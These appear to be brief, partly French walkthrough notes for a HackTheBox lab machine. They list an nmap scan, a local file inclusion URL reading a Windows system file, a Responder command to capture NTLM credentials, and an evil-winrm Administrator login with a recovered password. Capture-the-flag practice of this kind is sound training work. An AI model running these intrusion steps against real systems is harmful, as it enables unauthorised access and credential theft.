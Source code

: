 #HackTheBox #linux 
## Scan
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1

## Modifier le nom de l'@ip par unika.htb dans /etc/hosts

## unika.htb/?page=french.html

## inclusion de fichier LFI
#ExploitLFI
unika.htb/?page=C:/WINDOWS/System32/drivers/etc/hosts


## trouver les identifiants NTLM
responder -I tun0

## Connexion powershell
evil-winrm -i 10.129.188.16 -u Administrator -p badminton

# flag : 